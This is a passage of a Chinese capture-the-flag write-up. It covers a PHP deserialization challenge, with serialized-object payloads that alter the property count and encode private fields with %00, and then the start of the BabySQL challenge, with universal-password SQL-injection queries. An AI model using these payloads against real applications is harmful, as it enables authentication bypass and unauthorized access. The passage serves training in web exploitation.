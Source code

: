 简洁版执行结果：

```
O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";i:100;}
修改属性个数：
O:4:"Name":3:{s:8:"username";s:5:"admin";s:8:"password";i:100;}
```

但还是不行/???

#### private

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见

**private属性被序列化后属性值会变成`%00类名%00属性名`,则需在创造对象后根据规则进行修改，长度也要加上%00**

payload1：

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

![image-20220217220200027](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220217220200027.png)

==**注意❗⚠：可以进行url编码，防止%00对应的不可打印字符在复制时丢失**==，payload2：

```php
#未编码直接序列化private：
//O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}  //无法成功
echo urlencode(serialize($a));
#编码后：可以成功得到flag
O%3A4%3A%22Name%22%3A2%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
#再将Name后面的2换成3或其他值即可
```



## [极客大挑战 2019]BabySQL

#### 考点：关键词替换为空后回显部分数据

#### 万能密码，位置？

> 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。
>
> 要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于password=‘xxx’ or true，所以返回值就是true。
>
> 当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。
> 当然如果只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true。（xxx指代任意字符）
>
> **只要'or'后面的字符串为一个非零的数字开头都会返回True**
>
> ```
> select * from `admin` where password=''or'1abcdefg'    --->  True
> select * from `admin` where password=''or'0abcdefg'    --->  False
> select * from `admin` where password=''or'1'           --->  True
> select * from `admin` where password=''or'2'           --->  True
> select * from `admin` where password=''or'0'           --->  False
> ```
